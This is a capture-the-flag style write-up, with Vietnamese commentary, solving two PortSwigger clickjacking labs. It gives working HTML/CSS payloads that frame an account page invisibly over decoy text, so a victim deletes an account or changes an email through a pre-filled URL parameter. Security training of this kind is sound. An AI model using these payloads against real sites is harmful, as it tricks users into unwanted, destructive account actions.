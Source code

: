 # [Portswigger] Clickjacking

***

## 1. Lab: Basic clickjacking with CSRF token protection

* Content:
```
This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: wiener:peter
```
* Exploit:

Dùng payload sau cho vào Exloit Server:
```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 500px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a90004b0435b5e0b296118200d200a0.web-security-academy.net/my-account"></iframe>
```

Khi view Exploit ta sẽ thấy phần chữ "Click" ở đúng vi trí của "Delete Account"

<img width="355" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/4406580c-ec8f-4054-a46c-5489dba2189a">

LAB SOLVED!

<img width="594" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/532f04d4-86bb-49a1-aae0-af88ae23fa1f">

***

## 2. Lab: Clickjacking with form input data prefilled from a URL parameter

* Content:
```
This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: wiener:peter
```
* Exploit:

Dùng payload sau, prefill trước parametter email (bằng GET method trong link URL) để content email được fill vào trước trong ô input:

```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 450px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0ab8008003451981827cb51f00e80071.web-security-academy.net/my-account/?email=ndkhai%40test1.net"></iframe>
```

<img width="355" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/7b696408-947b-4852-9014-ac9488c97b6b">

Chuyển nội dung từ `Test me` =>  `Click me` rồi Deliver To Victim => LAB SOLVED!

<img width="579" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/69331c6a-49c9-4164-ad29-534592a14448">
